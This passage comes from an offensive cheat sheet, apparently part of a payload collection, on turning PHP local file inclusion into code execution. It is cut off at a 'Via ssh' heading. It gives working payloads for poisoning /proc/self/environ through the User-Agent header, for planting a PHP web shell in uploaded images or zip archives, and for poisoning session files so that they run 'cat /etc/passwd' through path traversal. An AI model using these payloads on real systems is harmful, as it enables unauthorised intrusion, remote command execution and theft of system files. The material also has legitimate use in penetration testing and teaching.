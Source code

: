 ### Via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```text
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload

If you can upload a file, just inject the shell payload in it \(e.g : `<?php system($_GET['c']); ?>` \).

```text
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload

Upload a ZIP file containing a PHP shell compressed and access:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

### Via PHP sessions

Check if the website use PHP Session \(PHPSESSID\)

```text
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\_\[PHPSESSID\]\_ files

```text
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```text
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```text
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh
